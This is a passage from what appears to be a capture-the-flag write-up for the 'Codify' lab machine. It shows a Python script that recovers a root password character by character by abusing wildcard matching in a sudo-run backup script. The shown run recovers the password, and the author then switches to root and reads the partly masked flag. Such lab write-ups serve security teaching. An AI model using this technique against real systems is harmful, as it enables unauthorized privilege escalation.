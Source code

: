     while True:
        for c in string.printable[:-5]:
            if c in '*\\%':
                continue
            print(f"\r{leaked_password}{c}", flush=True, end="")
            success = False
            try:
                result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, timeout=0.3)
            except subprocess.TimeoutExpired:
                 success = True
            if success or "Password confirmed" in result.stdout.decode():
                leaked_password += c
                break
        else:
            break
    print(f'\r{leaked_password}        ')



Running that gets down under 20 seconds:



    joshua@codify:/dev/shm$ time python3 leak_password.py 
    kljh12k3jhaskjh12kjh3        

    real    0m18.253s
    user    0m2.193s
    sys     0m2.820s



Minor improvement, so probably not worth it here, but if the delay on
success was longer, it would definitely be!

### su

With the password, I can `su` to root:



    joshua@codify:/dev/shm$ su -
    Password: 
    root@codify:~#



And grab `root.txt`:



    root@codify:~# cat root.txt
    fe1a209e************************







